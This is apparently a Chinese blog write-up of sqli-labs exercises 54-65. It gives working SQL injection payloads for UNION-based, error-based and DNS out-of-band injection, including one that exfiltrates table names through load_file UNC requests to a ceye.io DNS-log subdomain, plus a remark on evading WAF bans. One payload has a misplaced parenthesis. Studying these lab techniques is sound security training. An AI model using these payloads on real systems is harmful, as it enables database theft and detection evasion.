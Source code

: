 ```yaml
---
layout: post 
title: "sqlilab做题总结（三）"
date: 2020-07-05
author: su29029
tags: Web
---
```



## sqlilab做题总结（三）

sqlilab今天正式做完一遍啦，今天最后把Less54-Less65完成。

首先这部分的题比较奇怪，限制了注入次数，超过了次数，表名列名字段名都会重置，导致我们进行注入测试的时候需要严格注意每一次注入的内容，其中后面的盲注对脚本的要求也相当高。

##### Less54-57

这四个提相对简单，常规的联合查询注入，注意一下闭合方式即可。

>总结一下常见的一些闭合方式：
>
>1.单引号闭合```'```
>
>2.双引号闭合```"```
>
>3.单引号加括号```')```'
>
>4.双引号加括号```'")```
>
>5.括号(仅限数字型注入)```)```
>
>6.单引号加双括号```'))```
>
>7.双引号加括号```"))```

这里以54为例注入，主要payload：

```sql
?id=0' union select 1,2,3 %23  # 判断列数
```

```sql
?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="challenges"),3 %23    # 表名(数据库名已知故不需要获取)
```

```sql
?id=0' union select 1,(select group_concat(column_name) from information_schema.columns) where table_schema="challenges" and table_name="XXXXX"),3 %23  # 列名
```

##### Less58-61

这三个题也属于基础题，报错注入，同样注意一下闭合方式即可。payload(以58为例)：

```sql
?id=1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema="challenges")),1) %23
```

##### Less62-65

这几个题难度较高，限制130次查询，盲注出key。

首先判断一下我们需要爆出的字符个数：

> 1.数据库名，已知
>
> 2.数据表名，10位
>
> 3.列名，secret_XXXX，4位
>
> 4.字段名，24位
>
> 共计38位。

相当于130次爆出38个字符，平均一个字符3-4次，传统二分法貌似无法实现。不过如果限制放宽一些的话(180-200次)的话，二分法脚本是可以完成的。

如果是Windows环境，这里可以考虑借助DNS来完成注入。首先注册一个ceye.io的账号，随后ceye.io会分配一个子域名，随机分配，这里用xxxxxx代替。load_file函数除了可以读取本地文件之外，也可以对形如```\\www.test.com```的url发起请求。

在Windows系统中，```\\```开头的会被识别为UNC路径。

> UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。

相当于```\\\www.test.com```被识别成了网络地址，这里请求的时候会进行dns解析，这里我们便可以通过将我们想要查询的信息写入url中，随后查看dns解析记录(dnslog)，信息便可以获取到了。

payload：

```sql
?id=1') and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema="challenges" limit 0,1),'.xxxxxx.ceye.io\\abc'))),1,1) %23
```

随后回到ceye.io查看解析记录，发现数据表名已经获得。

ps1.这个方法有局限性，必须是Windows系统，且mysql具有较高权限。

ps2.其他的需要盲注的题目，如果我们反复高频的发送请求，waf可能会ban掉我们的ip，这时如果我们借助这样的方式，就可以轻松的实现数据的读取了。
